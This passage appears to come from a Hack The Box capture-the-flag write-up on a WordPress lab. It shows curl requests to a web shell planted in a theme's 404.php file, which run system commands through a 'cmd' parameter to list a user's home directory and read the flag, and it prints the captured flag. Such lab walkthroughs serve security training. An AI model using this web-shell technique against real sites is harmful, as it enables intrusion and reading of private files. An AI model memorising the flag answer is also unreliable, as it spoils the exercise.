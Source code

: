 ```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It works, let's read `/home/erika` directory:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika"

d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

Found our flag, let's read it:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"

HTB{w0rdPr355_4SS3ssm3n7}
```

Our final flag is:

```
HTB{w0rdPr355_4SS3ssm3n7}
```


![Pasted image 20250220145253.png](../../../IMAGES/Pasted%20image%2020250220145253.png)

